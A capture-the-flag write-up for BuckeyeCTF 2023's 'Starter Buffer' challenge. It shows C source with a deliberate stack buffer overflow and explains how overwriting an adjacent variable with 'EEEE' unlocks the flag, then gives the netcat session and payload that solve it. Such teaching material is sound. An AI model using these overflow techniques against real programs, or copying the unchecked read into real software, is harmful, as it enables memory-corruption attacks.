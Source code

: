# BuckeyeCTF 2023

## Starter Buffer

> Tell me your favorite number and I might give you the flag ;).
> 
> Author: geekgeckoalex
>
> [`buffer`](buffer), [`Dockerfile`](Dockerfile), [`starter-buffer.c`](starter-buffer.c)

Tags: _pwn_

## Solution
We get some source and binary as attachment for this challenge. The source is small and simple:

```c
void print_flag(void) {
    FILE* fp = fopen("flag.txt", "r");
    char flag[100];
    fgets(flag, sizeof(flag), fp);
    puts(flag);
}

int main(void) {
    // Ignore me
    setbuf(stdout, NULL);

    int flag = 0xaabdcdee;
    char buf[50] = {0};
	printf("Enter your favorite number: ");
	fgets(buf, 0x50, stdin);

    if(flag == 0x45454545){
        print_flag();
    }
    else{
        printf("Too bad! The flag is 0x%x\n", flag);
    }

    return 0;
}
```

We can see there is a buffer with `50` bytes size and the program reads `0x50` bytes into it. This is a potential overflow since `0x50 = 80` bytes. The next thing to note is that the buffer is placed before `flag` at the stack. This means if we write over the buffer boundary we start writing over the flag memory. And this is exactly how we get `print_flag` invoked. The condition is that `flag` needs to be `0x45454545` this is idendical to four E characters (`EEEE`). If we fill the buffer array and write a bit further we can write a bunch of `E` to the flag memory and we are good.

```bash
$ nc chall.pwnoh.io 13372
Enter your favorite number: EEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE
bctf{wHy_WriTe_OveR_mY_V@lUeS}
```

Flag `bctf{wHy_WriTe_OveR_mY_V@lUeS}`